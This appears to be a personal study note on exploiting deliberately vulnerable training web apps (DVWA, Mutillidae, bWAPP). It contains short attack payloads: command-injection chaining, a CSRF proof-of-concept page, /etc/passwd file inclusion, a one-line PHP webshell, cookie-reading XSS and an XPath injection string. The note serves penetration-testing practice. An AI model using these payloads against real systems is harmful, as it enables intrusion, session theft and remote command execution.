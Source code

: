 kalitags: #type/note #tech/web #goal/exploitation

---
# DVWA - Damn vulnerable web application
## brute force
brute force with burp cluster bomb
## command execution
end ping command with ; | or && and then enter another command
## CSRF - cross site request forgery
1. get request in burp
2. write proof of concept script
```html
<html>
	<head>
		<title>CSRF Proof of Concept</title>
	</head>
	<body>
		<h1>CSRF Example</h1>
		<img style="display:none" src="ENTER THE FORGED REQUEST HERE" alt="">
	</body>
</html>
```

usually you do a 1:1 copy of the webpage and insert this snippet with a hidden image
3. in the hidden image src part you enter the request you want to be sent
4. you present the malicous wite to some user the request will be sent using his session ID -> you might be able to change credentials, retrieve information,...
## Insecure captcha
doesnt work anymore
## File Inclusion
change page parameter in request to some file like /etc/passwd
can you include a remote file?
## SQL injection
[[2_Tech-Specifics/Web/Web Application Attacks/SQL Injection]]
## upload vulns
upload a simple php webshell
```php
<?php
	system($GET["cmd"]);
?>
```

then send request to this file on the webserver and pass a command in cmd parameter
## XSS
enter a script tag
```html
<script>alert();</script>
```

```html
<script>alert(document.cookie);</script>
```

# OWASP mutillidae

just explore and hackk :)
# bWAPP
better use on 10.0.1.11 
## HTML Injection
insert script tag for cross site scripting

## XPAth injection (logon)
Xpath is the query languag used for databases which use xml as file format
`' or '1'='1 ` dont forget the space at the end!
## XPath Injection (search)
irgendwie kompliziert
## PHP injection
in URL parameter message ändern zu php info oder so
## man in the middle
sniff credentials with wireshark

